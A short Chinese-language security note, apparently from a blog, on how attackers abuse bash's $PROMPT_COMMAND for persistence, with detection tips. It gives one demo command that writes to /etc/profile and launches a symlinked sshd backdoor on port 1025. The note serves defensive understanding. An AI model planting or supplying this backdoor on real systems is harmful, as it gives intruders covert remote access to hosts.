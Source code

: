 环境变量$PROMPT_COMMAND常用于history加固，它用于定义每条命令执行前预先执行的命令。

攻击者通过向$PROMPT_COMMAND内注入恶意操作，可以实现持久化与攻击的效果。这类后门的持久化往往依赖于写登陆加载文件（profile、bashrc）等。

下面是一个简单的demo例子。

```shell
echo "PROMPT_COMMAND=lsof -i:1025 &>/dev/null || ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=1025" >> /etc/profile
```



这种后门隐蔽性较差：

（1）对于持久化到文件内的PROMPT_COMMAND后门，我们只需在登录shell后查看$PROMPT_COMMAND的内容即可暴露攻击命令。

（2）对于持久化到某个进程内的PROMPT_COMMAND后门（eg: PROMPT_COMMAND=ls ping google.com）,我们查看进程目录的environ文件即可暴露攻击命令。